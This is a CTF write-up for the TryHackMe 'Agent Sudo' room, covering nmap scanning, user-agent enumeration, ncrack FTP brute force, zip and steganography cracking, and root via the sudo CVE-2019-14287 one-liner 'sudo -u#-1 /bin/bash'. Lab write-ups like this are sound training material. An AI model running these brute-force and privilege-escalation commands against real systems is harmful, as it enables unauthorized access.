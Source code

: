 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /agentsudo
tags: [thm, writeup, easy, linux, steganographie, web, CVE-2019-14287]     # TAG names should always be lowercase
---
```


## **SCANNING**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## **ENUMERATION**

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![website](/assets/agentSudo/website.png)


Try changing the USER-AGENT

![USER-AGENT](/assets/agentSudo/userAgent.png)

I got this new message

![AgentR](/assets/agentSudo/agentR.png)


It work, let's use the burp intruder to brute force all pages

![intruder](/assets/agentSudo/bruteForceUserAgent.png)

Found the path /C

![AgentC](/assets/agentSudo/agentC.png)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

### FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get these files

![zip](/assets/agentSudo/zip.png)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly, look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

## **PRIVESC**

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![privesc](/assets/agentSudo/privesc.png)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

**The exploit:**

sudo -u#-1 /bin/bash

Got root !